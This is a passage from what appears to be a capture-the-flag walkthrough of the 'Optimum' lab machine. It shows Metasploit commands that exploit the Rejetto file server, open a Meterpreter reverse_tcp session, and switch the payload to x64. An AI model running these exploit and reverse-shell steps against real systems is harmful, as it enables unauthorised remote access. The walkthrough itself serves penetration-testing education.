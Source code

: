 * `run`   -   With all our parameters set, we can turn our hamster loose.

<br>
![Initial Meterpreter Session Started](https://i.imgur.com/W90SIuQ.png "Initial Meterpreter Session Started")
<br>


`Meterpreter session 1 opened` [We're in.](https://media.giphy.com/media/YQitE4YNQNahy/giphy.gif) The first thing we'll want to do is gain more information about the system.
Meterpreter has a set of commands based on Unix that work no matter what operating system it is running on.
You can view a [nice SANS cheat sheet of these commands here.](https://www.sans.org/security-resources/sec560/misc_tools_sheet_v1.pdf)

`sysinfo` provides system information and help us get our bearings.

<br>
![sysinfo](https://i.imgur.com/iQepKBI.png "sysinfo")
<br>


If we look closely, we can see that something's not quite right here.
Optimum's architecture is __x64__.<br>
Our meterpreter version is set to _x86_, not __x86_64__! <br>
If we are going to proceed, we are going to need to change this.


In your Meterpreter shell, run `background` to go back to your msfconsole command line.
Then run `show options` again to see what payload Metasploit assumed we wanted to use.

<br>
![default rejetto parameters](https://i.imgur.com/PtRK9FA.png "default rejetto parameters")
<br>

This is almost correct.<br>
The payload is set to `windows/meterpreter/reverse_tcp` - which connects back over a TCP port from a Windows machine. <br>
However, this doesn't specify an architecture, and defaults to x86, not x86_64.
This is easy enough to fix, however. We just need to specify.

`set payload windows/x64/meterpreter/reverse_tcp`

<br>
![a new meterpreter](https://i.imgur.com/y8Bn1I1.png "a new meterpreter")
<br>

Since we have the first Meterpreter session still running, we need to set the `LPORT` again.

* `set LPORT 51001`
* `run`

<br>
![a new session](https://i.imgur.com/0PQHrip.png "a new session")
<br>
*(Sometimes this exploit will spawn you multiple sessions - just as a bonus! It has given me as many as 5!)*
